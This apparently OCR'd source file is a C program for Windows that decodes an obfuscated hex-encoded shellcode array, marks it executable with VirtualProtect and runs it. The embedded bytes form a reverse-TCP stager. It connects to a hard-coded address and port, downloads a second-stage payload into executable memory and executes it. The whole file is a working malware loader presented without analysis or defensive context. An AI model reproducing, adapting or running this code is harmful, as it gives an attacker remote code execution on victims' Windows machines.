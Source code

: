 #include <Windows.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <stdio.h>

int main(int argc, char *argv[])
{
	static char scstr[999][3] = 
	{
		"fc", "\xcc", "e8", "\xcc", "82", "\xcc", "00", "\xcc", "00", "\xcc", "00", "\xcc", "60", "\xcc", "89", "\xcc", "e5", "\xcc", "31", "\xcc", "c0", "\xcc", "64", "\xcc", "8b", "\xcc", "50", "\xcc", "30", "\xcc", "8b", "\xcc", "52", "\xcc", "0c", "\xcc", "8b", "\xcc", "52", "\xcc", "14", "\xcc", "8b", "\xcc", "72", "\xcc", "28", "\xcc", "0f", "\xcc", "b7", "\xcc", "4a", "\xcc", "26", "\xcc", "31", "\xcc", "ff", "\xcc", "ac", "\xcc", "3c", "\xcc", "61", "\xcc", "7c", "\xcc", "02", "\xcc", "2c", "\xcc", "20", "\xcc", "c1", "\xcc", "cf", "\xcc", "0d", "\xcc", "01", "\xcc", "c7", "\xcc", "e2", "\xcc", "f2", "\xcc", "52", "\xcc", "57", "\xcc", "8b", "\xcc", "52", "\xcc", "10", "\xcc", "8b", "\xcc", "4a", "\xcc", "3c", "\xcc", "8b", "\xcc", "4c", "\xcc", "11", "\xcc", "78", "\xcc", "e3", "\xcc", "48", "\xcc", "01", "\xcc", "d1", "\xcc", "51", "\xcc", "8b", "\xcc", "59", "\xcc", "20", "\xcc", "01", "\xcc", "d3", "\xcc", "8b", "\xcc", "49", "\xcc", "18", "\xcc", "e3", "\xcc", "3a", "\xcc", "49", "\xcc", "8b", "\xcc", "34", "\xcc", "8b", "\xcc", "01", "\xcc", "d6", "\xcc", "31", "\xcc", "ff", "\xcc", "ac", "\xcc", "c1", "\xcc", "cf", "\xcc", "0d", "\xcc", "01", "\xcc", "c7", "\xcc", "38", "\xcc", "e0", "\xcc", "75", "\xcc", "f6", "\xcc", "03", "\xcc", "7d", "\xcc", "f8", "\xcc", "3b", "\xcc", "7d", "\xcc", "24", "\xcc", "75", "\xcc", "e4", "\xcc", "58", "\xcc", "8b", "\xcc", "58", "\xcc", "24", "\xcc", "01", "\xcc", "d3", "\xcc", "66", "\xcc", "8b", "\xcc", "0c", "\xcc", "4b", "\xcc", "8b", "\xcc", "58", "\xcc", "1c", "\xcc", "01", "\xcc", "d3", "\xcc", "8b", "\xcc", "04", "\xcc", "8b", "\xcc", "01", "\xcc", "d0", "\xcc", "89", "\xcc", "44", "\xcc", "24", "\xcc", "24", "\xcc", "5b", "\xcc", "5b", "\xcc", "61", "\xcc", "59", "\xcc", "5a", "\xcc", "51", "\xcc", "ff", "\xcc", "e0", "\xcc", "5f", "\xcc", "5f", "\xcc", "5a", "\xcc", "8b", "\xcc", "12", "\xcc", "eb", "\xcc", "8d", "\xcc", "5d", "\xcc", "68", "\xcc", "33", "\xcc", "32", "\xcc", "00", "\xcc", "00", "\xcc", "68", "\xcc", "77", "\xcc", "73", "\xcc", "32", "\xcc", "5f", "\xcc", "54", "\xcc", "68", "\xcc", "4c", "\xcc", "77", "\xcc", "26", "\xcc", "07", "\xcc", "ff", "\xcc", "d5", "\xcc", "b8", "\xcc", "90", "\xcc", "01", "\xcc", "00", "\xcc", "00", "\xcc", "29", "\xcc", "c4", "\xcc", "54", "\xcc", "50", "\xcc", "68", "\xcc", "29", "\xcc", "80", "\xcc", "6b", "\xcc", "00", "\xcc", "ff", "\xcc", "d5", "\xcc", "6a", "\xcc", "05", "\xcc", "68", "\xcc", "c0", "\xcc", "a8", "\xcc", "01", "\xcc", "9b", "\xcc", "68", "\xcc", "02", "\xcc", "00", "\xcc", "23", "\xcc", "29", "\xcc", "89", "\xcc", "e6", "\xcc", "50", "\xcc", "50", "\xcc", "50", "\xcc", "50", "\xcc", "40", "\xcc", "50", "\xcc", "40", "\xcc", "50", "\xcc", "68", "\xcc", "ea", "\xcc", "0f", "\xcc", "df", "\xcc", "e0", "\xcc", "ff", "\xcc", "d5", "\xcc", "97", "\xcc", "6a", "\xcc", "10", "\xcc", "56", "\xcc", "57", "\xcc", "68", "\xcc", "99", "\xcc", "a5", "\xcc", "74", "\xcc", "61", "\xcc", "ff", "\xcc", "d5", "\xcc", "85", "\xcc", "c0", "\xcc", "74", "\xcc", "0a", "\xcc", "ff", "\xcc", "4e", "\xcc", "08", "\xcc", "75", "\xcc", "ec", "\xcc", "e8", "\xcc", "61", "\xcc", "00", "\xcc", "00", "\xcc", "00", "\xcc", "6a", "\xcc", "00", "\xcc", "6a", "\xcc", "04", "\xcc", "56", "\xcc", "57", "\xcc", "68", "\xcc", "02", "\xcc", "d9", "\xcc", "c8", "\xcc", "5f", "\xcc", "ff", "\xcc", "d5", "\xcc", "83", "\xcc", "f8", "\xcc", "00", "\xcc", "7e", "\xcc", "36", "\xcc", "8b", "\xcc", "36", "\xcc", "6a", "\xcc", "40", "\xcc", "68", "\xcc", "00", "\xcc", "10", "\xcc", "00", "\xcc", "00", "\xcc", "56", "\xcc", "6a", "\xcc", "00", "\xcc", "68", "\xcc", "58", "\xcc", "a4", "\xcc", "53", "\xcc", "e5", "\xcc", "ff", "\xcc", "d5", "\xcc", "93", "\xcc", "53", "\xcc", "6a", "\xcc", "00", "\xcc", "56", "\xcc", "53", "\xcc", "57", "\xcc", "68", "\xcc", "02", "\xcc", "d9", "\xcc", "c8", "\xcc", "5f", "\xcc", "ff", "\xcc", "d5", "\xcc", "83", "\xcc", "f8", "\xcc", "00", "\xcc", "7d", "\xcc", "22", "\xcc", "58", "\xcc", "68", "\xcc", "00", "\xcc", "40", "\xcc", "00", "\xcc", "00", "\xcc", "6a", "\xcc", "00", "\xcc", "50", "\xcc", "68", "\xcc", "0b", "\xcc", "2f", "\xcc", "0f", "\xcc", "30", "\xcc", "ff", "\xcc", "d5", "\xcc", "57", "\xcc", "68", "\xcc", "75", "\xcc", "6e", "\xcc", "4d", "\xcc", "61", "\xcc", "ff", "\xcc", "d5", "\xcc", "5e", "\xcc", "5e", "\xcc", "ff", "\xcc", "0c", "\xcc", "24", "\xcc", "e9", "\xcc", "71", "\xcc", "ff", "\xcc", "ff", "\xcc", "ff", "\xcc", "01", "\xcc", "c3", "\xcc", "29", "\xcc", "c6", "\xcc", "75", "\xcc", "c7", "\xcc", "c3", "\xcc", "bb", "\xcc", "f0", "\xcc", "b5", "\xcc", "a2", "\xcc", "56", "\xcc", "6a", "\xcc", "00", "\xcc", "53", "\xcc", "ff", "\xcc", "d5", "\xcc" 
	};

	size_t inlen = 666;
	size_t sclen = inlen / 2;

	uint8_t *shellcode = (uint8_t*)&scstr[0][0];

	for (size_t i = 0; i < inlen; i += 2) 
	{
		char h[3] = { 0 };
		h[0] = scstr[i][0];
		h[1] = scstr[i][1];

		uint8_t byte = (uint8_t)strtol(h, NULL, 16);
		shellcode[i / 2] = byte;
	}

	DWORD dwOld;
	if (!VirtualProtect(shellcode, sclen, PAGE_EXECUTE_READ, &dwOld))
		return -1;

	(*(void(*)(void))shellcode)();

	//if (!VirtualProtect(shellcode, sclen, dwOld, &dwOld))
		//return -1;

	return 0;
}
